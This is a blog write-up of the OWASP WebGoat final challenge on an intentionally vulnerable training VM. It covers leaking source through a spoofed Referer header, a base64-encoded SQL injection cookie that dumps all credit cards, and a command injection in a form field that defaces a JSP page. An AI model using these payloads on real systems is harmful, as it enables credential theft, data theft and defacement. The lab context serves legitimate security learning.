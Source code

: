 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Final Challenge"
subtitle: "Final Challenge"
date:   2017-02-03 20:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

Instructions:

- Your mission is to break the authentication scheme, steal all the credit cards from the database, and then deface the website. You will have to use many of the techniques you have learned in the other lessons. The main webpage to deface for this site is 'webgoat_challenge_user.jsp'

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/challenge-login.jpg">

Alright, the final challenge! Let's see what the login request generates:

```
Cookie: user="eW91YXJldGhld2Vha2VzdGxpbms=";
```

```
Username=admin&Password=pass&SUBMIT=Login&user=youaretheweakestlink
```

Alright, we have one interesting cookie and an interesting field that was appended to our request. I think that cookie looks like base64. Let's decode it and see what we get:

```
$ echo eW91YXJldGhld2Vha2VzdGxpbms= | base64 -d
youaretheweakestlink
```

Aha! Alright so the cookie is the username base64 encoded. Well, maybe there is an authenticated user already that we can steal the session of!

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/failed-brute-force.jpg">

After around 6 letters deep, I decided to stop as I thought this might not be be best path forward. Let's see. Well in each challenge before we could access the source of that page by clicking a button that has now magically disappeared (Presentation Level Access Controls anyone?). Let's click on one of those old links and look at what is generated:

```
GET /WebGoat/source?source=true HTTP/1.1
Referer: page_that_we_were_on
```

Interesting. What if we change the ```Referer``` field to the challenge URL?

```
GET /WebGoat/source?source=true HTTP/1.1
Referer: http://192.168.56.101/WebGoat/attack?Screen=9&menu=3000
```
Got it! And in the source we find:

```
121      private String pass = "goodbye";
122
123      private String user = "youaretheweakestlink";
```

Sloppy devs. Probably shouldn't have kept that in the source!

## Get the Credit Cards
 
<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/credit-card-page.jpg">

Okay now we have to steal the credit cards. I realized that the credit cards for this purchase were already in place (presumably for the logged in user) on the page when we got there. So on request, it would appear that the server must be looking at our cookie, determining who we are, and pulling the credit card info for us. That sounds like a SQLi vuln. Let's try some input:

```
Cookie: user=' or '1' = '1;
```

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/credit-card-injection.jpg">

Hm, looks like a failed injection (aka error). So the server probably uses plaintext reference to the user instead of base64'd reference. Let's try inserting some test SQLi in the base64'd cookie by appending a true evaluation just for our username on the end. If it comes back with our credit cards, we have figured out the logic for injecting this parameter:

```
>>> base64.b64encode("youaretheweakestlink' and '1'='1")
'eW91YXJldGhld2Vha2VzdGxpbmsnIGFuZCAnMSc9JzE='
```

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/credit-card-good-injection.jpg">

Okay! So now let's try to grab everyone's cards:

```
>>> base64.b64encode("youaretheweakestlink' or '1'='1")
'eW91YXJldGhld2Vha2VzdGxpbmsnIG9yICcxJz0nMQ=='
```

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/credit-cards-stolen.jpg">

Awesome! We've got 'em all.

## Deface the Site

Okay, now we have to deface the site. We are immediately shown some process output, presumably for processes running on the server. 

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/deface-the-site.jpg">

At the bottom of the page there is a selector where we can select a protocol (tcp, udp, ip, etc). Let's see what the request is that is generated from that selector:

```
SUBMIT=View+Network&File=tcp
```

Hmm..interesting. So the command itself looks like it could be ```netstat```. That would mean that the ```tcp``` we send might be a flag for a ```netstat``` command on the server. What happens if we append another command on the end of the ```tcp``` specification:

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/ls-deface.jpg">

Awesome! Looks like we can inject subsequent commands after the netstat command that is thrown back to the page. Let's try to deface the site:

```
SUBMIT=View+Network&File=tcp; echo '<html>pwnd</hmtl>' >> /var/lib/tomcat6/webapps/WebGoat/webgoat_challenge_user.jsp
```

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/site-defaced.jpg">

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_23/webgoat-completed.jpg">

And we've done it! We've defeated the mighty WebGoat. I've learned a lot about common web vulnerabilites and some of their manifestations, but I still have a lot to learn. I'm going to continue to learn and update the blog as I continue down the netsec rabbit hole.
